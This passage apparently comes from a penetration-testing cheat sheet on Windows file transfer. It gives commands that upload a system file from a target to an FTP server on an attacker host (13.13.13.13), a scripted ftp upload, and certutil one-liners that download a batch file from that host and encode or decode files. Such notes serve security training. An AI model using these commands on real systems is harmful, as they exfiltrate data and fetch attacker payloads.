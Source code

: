 ### <mark style="color:blue;">Uploads</mark>

For this we would also use `peftpdlib` but we need to specify the option --write to allow clients to upload files to our attack host.

1. **Starting FTP Server**

```bash
sudo python3 -m pyftpdlib --port 21 --write
```

2. **Powershell Upload File**

```powershell
PS C:\> (New-Object Net.WebClient).UploadFile('ftp://13.13.13.13/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```

3. **Create a Command File for the FTP Client to Upload a File**

```powershell
C:\> echo open 13.13.13.13 > ftpcommand.txt
C:\> echo USER anonymous >> ftpcommand.txt
C:\> echo binary >> ftpcommand.txt
C:\> echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt
C:\> echo bye >> ftpcommand.txt
C:\> ftp -v -n -s:ftpcommand.txt
ftp> open 13.13.13.13

Log in with USER and PASS first.


ftp> USER anonymous
ftp> PUT c:\windows\system32\drivers\etc\hosts
ftp> bye
```

## <mark style="color:yellow;">CERTUTIL</mark>

### <mark style="color:blue;">File Transfer</mark>

```powershell
PS C:\> certutil.exe -urlcache -split -f http://13.13.13.13:1337/youknowim.bat youknowim.bat
```

### <mark style="color:blue;">File Encode</mark>

```powershell
C:\> certutil -encode file1 encodedfile
```

### <mark style="color:blue;">File Decode</mark>

```powershell
C:\> certutil -decode encodedfile file2
```
